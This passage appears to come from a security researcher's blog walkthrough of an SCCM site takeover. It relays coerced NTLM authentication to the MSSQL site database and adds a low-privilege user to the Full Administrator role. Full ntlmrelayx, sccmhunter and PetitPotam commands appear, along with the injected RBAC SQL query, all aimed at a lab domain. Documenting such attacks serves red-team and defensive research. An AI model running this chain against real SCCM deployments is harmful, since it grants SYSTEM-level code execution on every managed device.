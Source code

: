 ```
ntlmrelayx.py -t mssql01.lab.lan -smb2support
```

![image](https://logan-goins.com/assets/img/sccm/elevate-3-relay.png)

## TAKEOVER-1 - Site Takeover Via NTLM Relay to MSSQL Site Database Server

Just like the site server machine account requires administrative privileges on the devices in the site to perform client installation, it also requires `db_owner` permissions on the MSSQL instance on the site database server to store information about the site. Because machine account authentication can be coerced under the context of a low-privilege user account, it can be intercepted and relayed to the MSSQL site database server allowing an attacker to arbitrarily grant any user the SCCM "Full Administrator" role. The only requirements to this attack being that the site database server being relayed to is not installed on the same system as the site server being coerced due to the inability to relay back to the same device, and Extended Protection for Authentication (EPA) is not enabled on the MSSQL instance (default).

The `Full Administrator` role can be used in an SCCM environment for remote code execution as `SYSTEM` on every device in the site, granting low-privilege users full administrative access to every device in the site SMB signing or not.

First use the `mssql` module through `SCCMHunter` to parse compile the MSSQL query which can be used to add a low-privilege user to `Full Administrator` for site takeover:

```
sccmhunter.py mssql -dc-ip 192.168.1.2 -d lab.lan -u 'jdoe' -p 'P@ssw0rd' -tu jdoe -sc abc -stacked
```

![image](https://logan-goins.com/assets/img/sccm/takeover-1-query.png)

Then we can use `ntlmrelayx.py` to execute our generated MSSQL query on successful authentication to the site database server:

```
ntlmrelayx.py -t mssql://mssql01.lab.lan -smb2support -q "DECLARE @AdminID INT; USE CM_abc; INSERT INTO RBAC_Admins (AdminSID, LogonName, IsGroup, IsDeleted, CreatedBy
, CreatedDate, ModifiedBy, ModifiedDate, SourceSite) SELECT 0x0105000000000005150000008F42A6DC5FAB6EDBDEE46EF958040000, 'LAB\jdoe', 0, 0, '', '', '', '', 'abc' WHERE NOT EXISTS ( SEL
ECT 1 FROM RBAC_Admins WHERE LogonName = 'LAB\jdoe' ); SET @AdminID = (SELECT TOP 1 AdminID FROM RBAC_Admins WHERE LogonName = 'LAB\jdoe'); INSERT INTO RBAC_ExtendedPermissions (Admi
nID, RoleID, ScopeID, ScopeTypeID) SELECT @AdminID, RoleID, ScopeID, ScopeTypeID FROM (VALUES  ('SMS0001R', 'SMS00ALL', 29), ('SMS0001R', 'SMS00001', 1), ('SMS0001R', 'SMS00004', 1) 
) AS V(RoleID, ScopeID, ScopeTypeID) WHERE NOT EXISTS ( SELECT 1 FROM RBAC_ExtendedPermissions  WHERE AdminID = @AdminID  AND RoleID = V.RoleID  AND ScopeID = V.ScopeID AND ScopeType
ID = V.ScopeTypeID );"
```

Finally coerce authentication from the site server to the attacker host:

```
python3 /opt/PetitPotam/PetitPotam.py -u jdoe -p P@ssw0rd 192.168.1.50 sccm01.lab.lan
```

![image](https://logan-goins.com/assets/img/sccm/takeover-1-coerce.png)
